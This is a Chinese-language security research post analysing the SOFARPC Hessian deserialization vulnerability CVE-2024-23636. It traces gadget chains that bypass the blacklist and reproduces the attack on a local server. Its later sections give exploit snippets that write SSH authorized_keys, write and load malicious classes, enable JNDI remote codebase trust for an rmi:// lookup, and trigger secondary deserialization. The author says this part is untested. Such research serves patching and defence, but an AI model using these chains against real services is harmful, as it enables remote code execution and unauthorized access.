SOFARPC反序列化漏洞（CVE-2024-23636）浅析
首发于先知 https://xz.aliyun.com/t/13462

0x01 SOFARPC简介
SOFARPC 是一个高性能、高扩展性、生产级的 Java RPC 框架。
2024年1月24日，启明星辰VSRC监测到SOFARPC中修复了一个反序列化漏洞（CVE-2024-23636），该漏洞的CVSSv3评分为9.8。由于SOFARPC 默认使用 SOFA Hessian 协议来反序列化接收到的数据，而 SOFA Hessian 协议使用黑名单机制来限制危险类的反序列化。SOFARPC 版本5.12.0之前，威胁者可通过Gadget链（只依赖于JDK，不依赖任何第三方组件）绕过SOFA Hessian黑名单保护机制，导致远程代码执行。
0x02 序列化分析
sofa-rpc默认使用 SOFA Hessian 协议来反序列化接收到的数据，所以，下载源码去看对应的实现。
对应的代码在com.alipay.sofa.rpc.codec.sofahessian这个包下面
com/alipay/sofa/rpc/codec/sofahessian/SofaHessianSerializer.java# encode()

这里先对传入obj获取对应的serializer，若果没有获取到，就使用默认Hessian进行序列化。
com/alipay/sofa/rpc/codec/sofahessian/SofaHessianSerializer.java# decode()



对应两种反序列方式，可以看到就是hessian序列化和反序列化外面套了一成。

尝试一下，直接调用它的序列化，反序列化方法是能可以命令执行的。
因为直接调用它的序列化和反序列函数，是没用过黑名单的。
具体的流程就是非常短的一条链子
1
2
3
4
5
6
| HashMap.equals
UIDefault.equals
Hashtable.equals
UIDefault.get
UIDefault.getFromHashtable
SwingLazyValue.createValue
|
简单说就是UIDefault它里面没有equals方法，调用它的父类的equals，然后触发UIDefault.get。完成了 only jdk的调用。

这是tostring的方式。
0x03 exp构造分析

通告里面写的org.apache.xpath这个类。
5.11.0黑名单
这是5.10对应的黑名单.

支队这个类做了限制。
所以很容易想到就是 com.sun.org.apache.xpath.internal.objects.XString.equal去触发toString。
1
2
3
4
5
6
| javax.swing.MultiUIDefaults.toString
UIDefaults.get
UIDefaults.getFromHashTable
UIDefaults$LazyValue.createValue
SwingLazyValue.createValue
javax.naming.InitialContext.doLookup()
|
但是5.11.1新增黑名单javax.swing.UIDefaults
所以上面的链子在小于5.11.1 是可以使用的。
5.11.1既然能触发tostring能想到的去连json的序列化触发getter。(Jackson、fastjson在目前最新版5.12也没在黑名单里)
5.12 黑名单https://github.com/sofastack/sofa-rpc/blob/v5.12.0/codec/codec-api/src/main/resources/sofa-rpc/serialize_blacklist.txt 增加到了一百七十多个

就是这种直接全搬掉了，但是hashmap和json没办。 就是可以找找haspmap的hashcode、equals触发toString然后触发getter。
0x04 漏洞复现
用项目里的例子起一个服务端。参考泛化调用说明可以见：https://cn.dubbo.apache.org/zh-cn/overview/tasks/develop/generic/

构建好exp用客户端发送payload到服务端就可以了。

把黑名单替换为5.11.0的黑名单

可以看到是可以攻击成功的。
1
2
3
4
5
6
7
8
9
| TreeSet.putAll
javax.naming.ldap.Rdn$RdnEntry.compareTo
com.sun.org.apache.xpath.internal.objects.XStringForFSB.equal
javax.swing.MultiUIDefaults.toString
UIDefaults.get
UIDefaults.getFromHashTable
UIDefaults$LazyValue.createValue
SwingLazyValue.createValue
javax.naming.InitialContext.doLookup()
|
就是hessian在序列化Treemap时会触发compareTo。hessian这里就不做分析。
5.11.1 本人技术有限，暂没找到原生触发。然后想到的利用方式就是tostring去触发json序列化。环境有fastjson2，jackson。
还有一条是
1
2
3
4
5
6
7
8
9
| TreeSet.putAll
javax.naming.ldap.Rdn$RdnEntry.compareTo
com.sun.org.apache.xpath.internal.objects.XString.equal
javax.sound.sampled.AudioFileFormat.toString
UIDefaults.get
UIDefaults.getFromHashTable
UIDefaults$LazyValue.createValue
SwingLazyValue.createValue
javax.naming.InitialContext.doLookup()
|
就换了一下中间的步骤。 看2023的那个cve遇警搬掉的就是javax.sound.sampled.AudioFileFormat。
也就是说这次的2024就是他的绕过呗。
0x05 扩展一下攻击面
SwingLazyValue.createValue可以调用sun.reflect.misc.MethodUtil.invoke方法达到任意类的任意方法调用，那这就有意思了。(试了下，hessian3.x好像不能用这个，4.x可以，写了就留着吧)
一、不出网就写文件
写ssh
1
2
3
4
5
6
7
8
9
|
byte[] allBytes = Files.readAllBytes(new File("/Users/snake/.ssh/authorized_keys").toPath());
Constructor<?> JavaUtils = JavaUtils.class.getDeclaredConstructors()[0];
JavaUtils.setAccessible(true);
Object javaUtils = JavaUtils.newInstance();
Method bytesToFilename = JavaUtils.class.getMethod("writeBytesToFilename", String.class, byte[].class);
Method invoke = MethodUtil.class.getMethod("invoke", Method.class, Object.class, Object[].class);
Object[] ags = new Object[]{invoke, new Object(), new Object[]{ bytesToFilename,javaUtils,new Object[]{ "/Users/snake/.ssh/authorized_keys1",allBytes}}};
SwingLazyValue swingLazyValue = new SwingLazyValue("sun.reflect.misc.MethodUtil","invoke",ags);
|
写class
1
2
3
4
5
| byte[] bytes = Files.readAllBytes(new File("evil.class").toPath());
SwingLazyValue swingLazyValue= new SwingLazyValue("java.lang.System","setProperty",new Object[]{(Object)"jfr.save.generated.asm",(Object)"true"});
SwingLazyValue swingLazyValue = new SwingLazyValue("jdk.jfr.internal.Utils","writeGeneratedASM",new Object[]{(Object)"/tmp/evil/",bytes});
打三次。 开启jfr.save.generated.asm，写class，在加载。
|
二、高版本开启jndi出网，在利用。
1
2
3
4
5
6
|
Object useCodebaseOnly = new SwingLazyValue("java.lang.System","setProperty",new Object[]{(Object)"java.rmi.server.useCodebaseOnly",(Object)"false"});
Object rmi = new SwingLazyValue("java.lang.System","setProperty",new Object[]{(Object)"com.sun.jndi.rmi.object.trustURLCodebase",(Object)"true"});
/ Object ldap = new SwingLazyValue("java.lang.System","setProperty",new Object[]{(Object)"com.sun.jndi.ldap.object.trustURLCodebase",(Object)"true"});
UIDefaults uiDefaults = new UIDefaults();
uiDefaults.put("a", new SwingLazyValue("javax.naming.InitialContext", "doLookup", new Object[]{"rmi://127.0.0.1:1099/remoteExploit8"}));
|
还可以高版本打tomcat的el表达式
三、类加载
1
2
3
4
5
6
7
8
9
10
11
12
13
| Method invoke = MethodUtil.class.getMethod("invoke", Method.class, Object.class, Object[].class);
Class<?> JVM = Class.forName("sun.tracing.dtrace.JVM");
Method defineClass = JVM.getDeclaredMethod("defineClass", ClassLoader.class, String.class, byte[].class, int.class, int.class);
defineClass.setAccessible(true);
Constructor<?> declaredConstructor = JVM.getDeclaredConstructor();
declaredConstructor.setAccessible(true);
Object jvm = declaredConstructor.newInstance();
Object[] ags = new Object[]{invoke, new Object(), new Object[]{ defineClass,jvm, new Object[]{jvm.getClass().getClassLoader(),evil,bcode,0,bcode.length}}};
SwingLazyValue swingLazyValue = new SwingLazyValue("sun.reflect.misc.MethodUtil", "invoke", ags);
SwingLazyValue swingLazyValue1 = new SwingLazyValue(evil, null, new Object[0]);
打两次，第一次加载，第二次调用
|
还有一些becl什么都是同理
1
2
3
4
5
6
7
8
9
|
JavaClass javaClass = Repository.lookupClass(calc.class);
String payload = "$$BCEL$$"+ Utility.encode(javaClass.getBytes(), true);
Method _main = JavaWrapper.class.getMethod("_main", String[].class);
Method invoke = MethodUtil.class.getMethod("invoke", Method.class, Object.class, Object[].class);
Object[] ags = new Object[]{invoke, new Object(), new Object[]{ _main,new JavaWrapper(),new Object[]{new String[]{payload}}}};
SwingLazyValue swingLazyValue = new SwingLazyValue("sun.reflect.misc.MethodUtil","invoke",ags);
|
四、打二次反序列

没过滤javax.management.remote.rmi
1
2
3
4
5
6
7
8
9
10
| File file = new File("jdk的序列化bin");
byte[] fileBytes = Files.readAllBytes(file.toPath());
String base64 = Base64.getEncoder().encodeToString(fileBytes);
JMXServiceURL jmxServiceURL = new JMXServiceURL("service:jmx:rmi://");
setFieldValue(jmxServiceURL, "urlPath", "/stub/"+base64);
RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);
Method connect = rmiConnector.getClass().getMethod("connect");
Method invoke = MethodUtil.class.getMethod("invoke", Method.class, Object.class, Object[].class);
Object[] ags = new Object[]{invoke, new Object(), new Object[]{ connect,rmiConnector, null}};
|
打RMIConnector的二次。需要注意二次使用jdk的序列化，不是hessian的。
以上未尝试复现，纯理论，实战可能需要改改。
总后致敬wh1t3p1g，都是XStream的链子。
0x06 参考链接
https://yml-sec.top/2022/04/20/apachedubbo%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%E5%88%86%E6%9E%90/
https://guokeya.github.io/post/psaIZKtC4/
https://su18.org/post/hessian/
https://blog.0kami.cn/blog/2021/xstream_blacklist_bypass/
补
https://github.com/sofastack/sofa-rpc/security/advisories/GHSA-7q8p-9953-pxvr

官网写的小于5.11.1，启明写的小于5.12.0，那没事了。